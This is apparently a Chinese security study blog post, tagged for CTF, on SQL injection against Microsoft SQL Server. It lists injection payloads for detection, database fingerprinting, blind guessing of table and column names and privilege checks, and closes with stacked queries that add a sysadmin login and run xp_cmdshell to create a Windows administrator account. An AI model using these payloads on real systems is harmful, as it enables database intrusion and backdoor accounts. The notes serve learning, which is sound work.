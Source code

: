 ```yaml
---
layout:     post
title:      Web笔记（二）SQL注入之Mssql
subtitle:   这个系列是整理学习安全的笔记，包括Web和PWN的一些知识。本章是Mssql的SQL注入。
date:       2020-11-29
author:     HouKC
header-img: img/post-bg-rwd.jpg
catalog:    true
tags:
    - CTF
    - web
    - 网络安全
    - 学习笔记
    - SQL注入
    - Mssql
---
```




## 0x00 Mssql简介

Mssql，又称SQL Server，全称为Microsoft SQL Server，是美国Microsoft公司推出的一种关系型数据库系统，是一个可扩展的、高性能的、为分布式客户机/服务器计算所设计的数据库管理系统，实现了与WindowsNT的有机结合，提供了基于事务的企业级信息管理系统方案。

主要特点如下：

- 高性能设计，可充分利用WindowsNT的优势。
- 系统管理先进，支持Windows图形化管理工具，支持本地和远程的系统管理和配置。
- 强壮的事务处理功能，采用各种方法保证数据的完整性。
- 支持对称多处理器结构、存储过程、ODBC，并具有自主的SQL语言。Mssql以其内置的数据复制功能、强大的管理工具、与Internet的紧密集成和开放的系统结构为广大的用户、开发人员和系统集成商提供了一个出众的数据库平台。



## 0x01 Mssql常用场景

- 学校
- 政府
- OA
- 棋牌游戏
- 人事考试网站

asp/aspx+sqlserver



## 0x02 Mssql知识

#### 1.Mssql服务、端口、后缀

- 重启服务，使其生效。

- 命令：services.msc

  TCP  0.0.0.0:1433  0.0.0.0:0  LISTENING

- 1433端口是开启的，当我们关闭服务后，端口也将关闭。

- 后缀是xxx.mdf

- 日志文件后缀是xxx_log.ldf

- 数据库服务器系统级权限账号sa

#### 2. 数据库权限

- sa权限：数据库操作，文件管理，命令执行，注册表读取等system

- db权限：文件管理，数据库操作等users-administrators

- public权限：数据库操作guest-users



## 0x03 调用数据库代码

```asp
	<%
set conn = server.createobject("adodb.connection")
conn.open "provider=sqloledb;source=local;uid=sa;pwd=*****;database=database-name"
%>
```
其中，provider后面的不用管，照写；source后面的是IP地址，这里是本地；sa是内置的用户，密码是在安装时设置的；database后面的是要连接的数据库名称，如：mydatabase（不需要扩展名）

一般这段代码会在以下文件中存在：

- conn.asp

- dbconfig.asp

如果是aspx则可能在：

- web.config



## 0x04 注入语句

#### 1. 判断是否有注入

```
and 1=1
and 1=2
/
-0
```

#### 2. 初步判断是否是mssql

```
and user>0		# 如果正常就是Mssql
```

#### 3. 判断数据库系统

```
and (select count(*) from sysobjects)>0      mssql
and (select count(*) from msysobjects)>0    access
```

如果上述语句正常，则可能是sa权限4) 注入参数是字符'and [查询条件] and '' = '5) 搜索时没过滤参数的'and [查询条件] and '%25'='6) 猜数表名and (select count(*) from [表名])>07) 猜字段and (select count([字段名]) from [表名])>08) 猜字段中记录长度and (select top 1 len([字段名]) from [表名])>09) 猜字段的ascii值and (select top 1 asc(mid([字段名], 1, 1)) from [表名])>0             accessand (select top 1 unicode(substring([字段名], 1, 1)) from [表名])>0     mssql10)测试权限结构（mssql）and 1=(select IS_SRVROLEMEMBER('sysadmin'));--and 1=(select IS_SRVROLEMEMBER('serveradmin'));--and 1=(select IS_SRVROLEMEMBER('setupadmin'));--and 1=(select IS_SRVROLEMEMBER('securityadmin'));--and 1=(select IS_SRVROLEMEMBER('diskadmin'));--and 1=(select IS_SRVROLEMEMBER('bulkadmin'));--and 1=(select IS_SRVROLEMEMBER('db_owner'));--11) 添加mssql和系统的账户exec master.dbo.sp_addlogin username;--exec master.dbo.sp_password null,username,password;--exec master.dbo.sp_addsrvrolemember sysadmin username;--exec master.dbo.xp_cmdshell 'net user username password /workstations:* /times:all /passwordchg:yes /passwordreq:yes /active:yes /add';--exec master.dbo.xp_cmdshell 'net user username password /add';--exec master.dbo.xp_cmdshell 'net localgroup administrators username /add';--